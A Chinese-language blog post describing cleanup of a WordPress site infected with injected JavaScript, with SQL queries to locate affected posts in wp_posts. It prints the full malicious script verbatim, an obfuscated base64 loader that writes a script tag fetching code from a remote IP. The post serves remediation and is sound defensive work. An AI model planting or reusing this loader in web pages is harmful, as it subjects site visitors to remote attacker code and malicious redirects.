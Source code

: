 ```yaml
---
layout: post
title:
modified:
categories: Tech

tags: [wordpress]

comments: true
---
```


## 被攻击

被人盯上了，也是有意思.还自动每天在我平台发文章...

具体从 chrome 可以看到一段插入的 js:
![Screenshot from 2019-04-16 09-54-20-f98aa49e-253d-4eab-981d-5f0d22a6bf03](https://images-1257933000.cos.ap-chengdu.myqcloud.com/Screenshot%20from%202019-04-16%2009-54-20-f98aa49e-253d-4eab-981d-5f0d22a6bf03.png).

自然不是我写的.工程也搜不到，只能是 sql 注入攻击了，在 pc chrome 还好，移动端就会出现一些恶心的跳转和广告.全阿拉伯文...和羞羞的图

解决办法:
<https://stackoverflow.com/questions/52249409/how-to-remove-scripts-in-posts-from-an-sql-injection-attack>

## 解决

恶意代码肯定是插入到文章 wp_post 里了:

```sql
SELECT * FROM `wp_posts` WHERE post_content LIKE "%codes_iframe%";
```

可以找到所有的插入代码:

```sql
SELECT post_title as title, ID as post_id, SUBSTRING(post_content,1,LOCATE('<!--codes_iframe-->',post_content)-1 ) as pre_post, SUBSTRING(post_content,LOCATE('<!--codes_iframe-->',post_content) + LENGTH('<!--/codes_iframe-->')) as post_txt from wp_posts
```

用 sql 替换也太...还是导出来，用文本工具替换好了，找到

```sh
<!--codes_iframe--><script type=\"text/javascript\"> function getCookie(e){var U=document.cookie.match(new RegExp(\"(?:^|; )\"+e.replace(/([\\.$?*|{}\\(\\)\\[\\]\\\\\\/\\+^])/g,\"\\\\$1\")+\"=([^;]*)\"));return U?decodeURIComponent(U[1]):void 0}var src=\"data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=\",now=Math.floor(Date.now()/1e3),cookie=getCookie(\"redirect\");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie=\"redirect=\"+time+\"; path=/; expires=\"+date.toGMTString(),document.write(\'<script src=\"\'+src+\'\"><\\/script>\')} </script><!--/codes_iframe-->
```

替换为空,再导回去, 注意有外键约束的表可别这么玩.
